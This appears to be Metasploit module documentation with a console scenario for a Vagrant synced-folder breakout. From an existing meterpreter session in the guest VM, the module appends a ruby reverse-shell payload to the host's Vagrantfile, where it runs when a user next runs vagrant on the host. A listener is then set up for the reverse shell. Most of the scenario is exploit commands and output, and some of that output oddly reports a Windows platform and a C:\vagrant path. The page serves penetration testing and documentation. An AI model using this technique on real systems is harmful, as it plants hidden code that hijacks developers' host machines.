 
## Options

### VAGRANTFILE_PATH

Path to `Vagrantfile` (leave blank to auto detect).


## Scenarios

### hashicorp/bionic64 guest virtual machine in Vagrant 2.3.1 with VirtualBox 6.1 running on Ubuntu 22.04.1

```
msf > sessions -i 1 -C sysinfo
[*] Running 'sysinfo' on meterpreter session 1 (::1)
Computer     : vagrant.vm
OS           : Ubuntu 18.04 (Linux 4.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
msf > sessions -i 1 -C getuid
[*] Running 'getuid' on meterpreter session 1 (::1)
Server username: vagrant
msf > use exploit/multi/local/vagrant_synced_folder_vagrantfile_breakout 
[*] Using configured payload ruby/shell_reverse_tcp
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set session 1
session => 1
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lport 4444
lport => 4444
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > check

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] The service is running, but could not be validated. Could not verify if C:\vagrant\Vagrantfile is writable.
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Could not verify if C:\vagrant\Vagrantfile is writable.
[*] Appending payload (516 bytes) to C:\vagrant\Vagrantfile ...
[*] Payload appended to C:\vagrant\Vagrantfile
[*] The payload will be executed when a user runs any vagrant command from within the project directory on the host system.
[!] This module requires manual removal of the payload from the project Vagrantfile: C:\vagrant\Vagrantfile
msf exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > use exploit/multi/handler 
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(multi/handler) > set payload ruby/shell_reverse_tcp
payload => ruby/shell_reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run -jz
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

```